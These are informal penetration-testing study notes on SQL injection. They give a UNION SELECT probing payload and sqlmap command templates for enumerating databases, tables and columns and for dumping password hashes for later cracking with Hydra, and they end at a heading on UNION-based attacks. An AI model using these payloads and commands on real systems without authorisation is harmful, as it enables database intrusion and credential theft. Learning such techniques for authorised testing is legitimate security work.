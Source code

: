 > checking for boolean SQLi also check false cases&#x20;

```
'UNION SELECT 'str1', 'str2';-- -
```

> to check for how many col does the Dev Select have keep increasing the 'str' until no error.

### Basic SQLMap syntax:

#### GET req:

```
sqlmap -u <URL> -p <injection_parm> [options]
```

#### POST req:

```
sqlmap -u <URL> --data='<POST_str>' -p <parm> [options]
```

> \<POST\_str>: comes from req intercepted by Burp Proxy.
>
> ex: --data=="user=a\&pass=a" -p user

Another way is to use Burp Proxy to intercept the request then save it as a file \`request\`:

```
sqlmap -r request -p <parm>
```

🍪Sometimes you might need a cookie as the vul might exists after login: `--cookie=""`

> \[options]: for exmaple --tables: to print all the tables or -b for banner
>
> later --current-db \<table\_name> -columns: for each table in DB give me all col.
>
> also add --dump: to get password hashes (for layter attacks with Hydra)

> other \[options]:
>
> * \--fresh-queries: bruteforce again don't just show prev bruteforce results.
> * \--technique= U for exmple Union base SQLi.
> * \--users : get users
> * \--dbs :  get DB Names &#x20;
> * \-D \<DB\_Name> --tables :  get tables
> * \-D \<DB\_Name_> -T \<Table\__name> --columns: get all cols
>
> for exmaple after getting DB Table then col you can **dumb** it like this:

```
sqlmap -u <URL> -p <inj_prm> -D <DB_name> -T <t_name> -C col1,col2 --dump
```

>

**Attacking a Union based SQLi:**
